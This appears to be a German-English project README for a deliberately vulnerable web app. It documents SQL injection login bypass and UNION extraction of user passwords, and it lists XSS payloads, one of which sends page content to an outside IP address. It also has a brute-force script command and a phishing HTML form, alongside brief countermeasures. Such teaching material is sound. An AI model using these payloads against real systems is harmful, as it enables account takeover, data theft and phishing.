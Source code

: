 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata.

## Maßnahmen
Escaping query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```
